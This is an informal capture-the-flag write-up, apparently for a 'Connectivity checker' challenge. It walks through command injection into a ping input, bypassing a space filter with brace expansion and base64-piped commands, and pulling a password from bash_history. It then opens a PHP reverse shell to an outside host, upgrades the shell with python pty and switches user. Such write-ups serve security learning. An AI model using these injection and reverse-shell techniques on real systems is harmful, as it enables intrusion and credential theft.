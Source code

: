 # Connectivity checker writeup
it was a very nice experience here is how i did-it

first i start checking the input filter by typing some chars and wait for OKEY BOOMER XDD

i found that the filter don't like the spaces and newline characters so i tried to create commands without these chars like
```c
 localhost&&ls
 localhost&&ps
```
but still can't put spaces so i googled some, i found some nice bash syntax instead of typing ls -la we type {ls,-ls} so no spaces ;D

but it was too hard to create long command and piping ...
i typed 
```c
 ps -aux
```
and i got 
```c
sh -c (echo "ping -c 1 localhost&&{ps,-aux}" | bash) 2> /dev/null
```
then i created a c program who encode my commands with base64 then decode it at de other side and pipe it to sh
```c
sh -c (echo "ping -c 1 localhost&{base64,-d,}<<<base64string|sh" | bash) 2> /dev/null
```
then i start exploring the machine for writable directories and files, missconfigurations ... , i took the wrong path at the begining when i was trying to compile a kernel exploit to escalate preveliges, then i got the bash_history file where i found 
```c
Qu4r4Nt1n3d!@
```
which looks like a password (was typed after sudo -S but it was typed by purpose)
so i tried to login as another user with that password, i got the users from etc/passwd, i tried to su - root or ctf but i get no output so  i sshed the machine but a public key filter was set :C, then i got a reverse shell with the php cli

```php
php -r '$sock=fsockopen("ip","port");exec("/bin/bash -i <&3 >&3 2>&3");'
```
then i got a better shell but still can't su i get an error "su: must be run from a terminal" then i i found a trick in google by spawning the shell with python 
```python
echo "import pty; pty.spawn('/bin/bash')" > /tmp/test.py&&python /tmp/test.py
```
then i got the terminal <3
i tryed su - ctf with that password , boom i am a ctf XDDD

